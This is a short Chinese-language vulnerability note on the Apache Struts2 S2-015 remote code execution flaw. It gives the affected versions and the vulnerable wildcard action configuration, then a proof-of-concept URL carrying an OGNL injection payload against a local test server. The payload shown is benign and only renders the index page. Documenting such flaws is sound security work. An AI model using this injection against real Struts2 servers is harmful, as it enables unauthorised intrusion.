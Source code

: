 # Struts2远程代码执行

受影响版本:

- 2.0.0-2.3.14.2

详情[参看](https://cwiki.apache.org/confluence/display/WW/S2-015)
原因在于struts2.xml配置中有如下的配置:

```
<action name="*" class="example.ExampleSupport">
    <result>/example/{1}.jsp</result>
</action>
```

其中`{1}`是用户可以控制的变量
POC过程:

<pre>
http://127.0.0.1:8080/struts2demo/HelloWorld/%24%7b%23foo%3d%27index%27%2c%23foo%7d
</pre>

成功导入首页的页面。  
其payload为:  

<pre>
${#foo='index',#foo}
</pre>